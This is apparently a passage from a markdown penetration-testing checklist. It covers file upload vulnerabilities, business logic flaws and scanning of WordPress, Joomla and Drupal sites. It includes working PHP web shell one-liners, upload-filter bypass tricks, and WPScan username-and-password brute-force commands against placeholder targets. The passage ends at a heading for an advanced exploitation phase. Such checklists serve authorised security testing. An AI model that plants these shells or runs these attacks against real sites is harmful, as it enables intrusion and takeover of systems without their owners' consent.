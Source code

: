 #### File Upload Vulnerabilities
- [ ] **Unrestricted File Upload**:
  ```php
  <?php system($_GET['cmd']); ?>
  <?php echo shell_exec($_GET['cmd']); ?>
  ```
- [ ] **Bypass Techniques**:
  - Double extension: shell.php.jpg
  - Null byte: shell.php%00.jpg
  - Content-Type manipulation
  - Magic bytes prepending
  - Case variation: .PHP, .pHp

#### Business Logic Testing
- [ ] **IDOR (Insecure Direct Object References)**:
  - Change user IDs in URLs/parameters
  - Test sequential access to resources
- [ ] **Price Manipulation**: In e-commerce applications
- [ ] **Race Conditions**: Concurrent request testing
- [ ] **Workflow Bypasses**: Skip steps in multi-step processes

### CMS-Specific Testing

#### WordPress
- [ ] **WPScan**:
  ```bash
  wpscan --url http://<target> --enumerate u,p,t --api-token <token>
  wpscan --url http://<target> --passwords passwords.txt --usernames admin
  ```
- [ ] **Manual WordPress Testing**:
  - Check /wp-admin/, /wp-content/, /wp-includes/
  - XML-RPC testing: /xmlrpc.php
  - User enumeration: /?author=1

#### Joomla
- [ ] **JoomScan**:
  ```bash
  joomscan -u http://<target>
  ```
- [ ] **Manual Joomla Testing**:
  - /administrator/ access
  - Component/module enumeration

#### Drupal
- [ ] **Droopescan**:
  ```bash
  droopescan scan drupal -u http://<target>
  ```

---

## 💥 Phase 3: Advanced Exploitation
